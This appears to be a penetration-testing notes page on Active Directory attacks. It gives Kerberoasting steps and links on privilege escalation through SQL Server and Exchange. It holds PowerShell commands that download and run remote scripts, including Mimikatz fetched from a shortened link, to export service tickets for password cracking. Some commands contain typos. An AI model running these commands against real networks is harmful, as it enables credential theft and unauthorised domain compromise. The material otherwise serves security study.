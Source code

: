 {% tab title="Kerberoasting" %}
Kerberoasting

* Any ticket can be requested by any user with kerberos, from the domain controller
* Those tickets are encrypted with the NTLM hash of the associated service user.
* If we can guess the password to teh associated service user's NTLM hash, then we now know the password to the actual service account
* Steps:
  * &#x20;List all SPN services. These are the service accounts for which we are going to pull all the kerberos tickets
    * \>setspn -T \[domain] -F -Q \*/\*
  * &#x20;Next we target either a single user SPN or pull all the user Kerberos tickets into our user's memory
    * Single target
      * \>powershell Add-Tpe -AssemblyName System.IdentityModel; New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArguementList “HTTP/\[hostname].\[domain].local”
    * All User tickets
      * \>powershell Add-Tpe -AssemblyName System.IdentityModel; IEX (New-Object Net.WebClient).DownloadString("https://githubusercontent.com/nidem/kerberoast/master/GetUserSPNs.ps1") | ForEach-Object {try{New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArguementList $\_.ServicePrincipalName}catch{}
    * &#x20;And the powersploit tool to automate this!
      * [https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/)
    * Now we have our tickets imported into memory and we need to extract them.
      * Mimikatz Kerberoast export:
      * \>powershell.exe -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/2qx4kuH'); Invoke-Mimikatz -Command ‘’'''''kerberos::list /export'''''''
      * Once extracted and on our victims machine and we can start cracking them!
        * use tgsrepcrack.p
{% endtab %}
{% endtabs %}

## **AD Privilege Escalation**

## Special AD Targets

### Microsoft SQL Server

* [How to get SQL Server Sysadmin Privileges as a Local Admin with PowerUpSQL](https://blog.netspi.com/get-sql-server-sysadmin-privileges-local-admin-powerupsql/)
* [Compromise With Powerupsql – Sql Attacks](https://blog.stealthbits.com/compromise-with-powerupsql-sql-attacks/)

### Red Forest

* [Attack and defend Microsoft Enhanced Security Administrative](https://download.ernw-insight.de/troopers/tr18/slides/TR18\_AD\_Attack-and-Defend-Microsoft-Enhanced-Security.pdf)

### Exchange

* [Exchange-AD-Privesc](https://github.com/gdedrouas/Exchange-AD-Privesc)
* [Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
* [NtlmRelayToEWS](https://github.com/Arno0x/NtlmRelayToEWS)
